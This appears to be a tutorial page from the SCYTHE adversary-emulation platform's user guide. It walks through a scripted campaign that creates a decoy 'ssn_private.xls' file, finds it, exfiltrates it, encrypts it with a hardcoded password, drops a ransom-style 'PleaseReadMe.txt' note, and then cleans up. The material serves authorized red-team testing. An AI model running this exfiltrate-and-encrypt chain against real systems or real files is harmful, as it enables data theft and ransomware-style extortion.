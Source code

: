 # Example Script 2

This Compound Action is the Example Script 2 from Appendix B of the SCYTHE User Guide. It demonstrates use of advanced automation features, including using the output of prior commands to inform logic of future commands. Variables and pattern matching are also demonstrated.

Please refer to section 2.2 - Automate Campaign Actions in the User Guide for documentation on what functions are support on strings in SCYTHE's automation language.

## Steps

1. `encryption_key = h3ll0w0rld`
    * Set the variable `encryption_key` to equal "h3ll0w0rld". This variable is used later as the passphrase for encrypting a file with the `crypt` module. 
    * This is an example of how to set a variable within SCYTHE's automation language. To set variables, click "Show more..." beneath "Custom Action". You will see an `Assign` action. Click this and a menu will appear that allows you to set a variable name and value. The value can then be reused by referring to it via the Step # where the value was assigned.
    * NOTE: Variables are not currently accessed by their name, but by referencing the output of the step in which they were declared.
2. `loader --load crypt`
    * Load the `crypt` module. This module can be used to encrypt files using the "Microsoft Base Cryptographic Provider" API to perform symmetric AES 256-bit encryption.
3. `loader --load downloader`
    * Load the `downloader` module, which is will be used to place a file from the VFS onto the target's filesystem.
4. `loader --load file`
    * Load the `file` module, which can be used to create random files with random data.
5. `loader --load search`
    * Load the `search` module, which is used to search for files in a directory structure.
6. `loader --load uploader`
    * Load the `uploader` module, which is used to exfiltrate files from the target system.
7. `delay --time 10`
    * Add a manual delay of 10 seconds.
8. `file --create --path "%USERPROFILE%\Documents\ssn_private.xls" --size 10MB --random`
    * Create a file with 10MB of random data in the user's Documents folder. Note that we are able to use an environment variable `USERPROFILE` in the file path.
9. `search --directory "%USERPROFILE%" --filename "ssn_private.xls" --recurse`
    * Search the User's profile recursively for a file (the one we created in step 8).
10. `target_path = $(9).response["filepaths"][0]`
    * Assign a value to a variable.
    * This is the first step that makes use of SCYTHE's automation language. Let's break it down:
        * `$(9)` - This references Step 9.
        * `.response` - You may reference either a step's request (input) or response (output).
        * `response["filepaths"]` The `search` module returns a property in it's response that is an array of strings called `filepaths`. You may view the schema of the module by hovering over the `i` button next to the module name in the "Custom Action" dialog. Additionally, while you are typing the command of a Custom Action you may press the `CTRL + Space` keyboard combination to see tooltips of the different values or functions of a variable that you may use.
        * `response["filepaths"][0]` The last part of this is an index into the `filepaths` list. Since `filepaths` is, on the backend, a Python list containing strings, its elements may be accessed via Python's syntax. In this case we are accessing it's 0th element.
    * Ultimately, what this Step is doing is getting the first file path found by the `search` command in step 9. This is also the file that we created in step 8.
11. `uploader --remotepath $(10).response`
    * Use the `uploader` module to exfiltrate the file that we found.
    * We use `$(10).response` to obtain the string that we assigned to `target_path` in step 10. Because the variable name is irrelevant, we get the results of that Assign action by referencing the response (the output) of the step in which it was declared.
11. `crypt --target $(10).response --encrypt --password $(1).response`
    * Encrypt the file on the target's machine with the password that we decided upon in step 1.
    * Here we references variables in two steps. The file path that we obtained in step 10, and the password that we decided upon in step 1.
12. `downloader --src "VFS:/shared/threats/ExampleScript2/PleaseReadMe.txt" --dest $(10).response.extract(".*\\\\")[0].suffix("PleaseReadMe.txt")`
    * This is the most complex command in the example. It makes use of special SCYTHE Automation Language functions that are described in the table in Section 2.2 of the SCYTHE User Guide.
    * Here we place a file from the VFS into the same directory in which we found the `.xls` file that we created earlier. Let's unpack each part:
        * `downloader --src "VFS:/shared/threats/ExampleScript2/PleaseReadMe.txt"` - Use the `downloader` module to place a file from the VFS onto the target's filesystem. This assumes that there is a file in the VFS at the path specified.
        * `$(10).response` - Get the file path from step 10.
        * `$(10).response.extract(".*\\\\")` - Extract a substring from that filepath using a the regular expression (regex) pattern "`.*\\\\`". This uses Python's `re` library. Please note that the backslashes (`\`) are escaped.
        * `extract(".*\\\\")[0]` - The `extract` function produces an array (a Python `list`) of strings. In this case there is only one element in the array (the 0th element). So we access it using Python's indexing syntax. The result will be the path of the directory in which the `.xls` file resides.
        * `.suffix("PleaseReadMe.txt")` - The `suffix` function in SCYTHE's automation language appends a string onto another string. In this case, we are appending "PleaseReadMe.txt" onto the path of the directory.
        * After all portions are evaluated, the result is the directory path + "PleaseReadMe.txt" as the final path of where the text file should be placed. The file will be copied from the VFS and written to that path.
13. `STEP = CLEANUP`
    * Assignment steps can also be used to add comments in your SCYTHE Campaign. In this case, we use assignment to state that the following steps are for cleanup.
14. `loader --load run`
    * Loads the `run` module, which creates new processes.
15. `run cmd /c del $(10).response`
    * Uses the Windows command shell to run a one-liner that deletes the `.xls` file that we created earlier.
16. `run cmd /c del $(10).response.suffix(".$xb")`
    * Deletes the encrypted version of the `.xls` file that we created earlier.
17. `run cmd /c del $(10).response.extract(".*\\\\")[0].suffix("PleaseReadMe.txt")`
    * Deletes the text file that we place don the target filesystem earlier.
18. `controller --shutdown`
    * This is a special command that shuts down the SCYTHE client. This will cause the client to go inactive.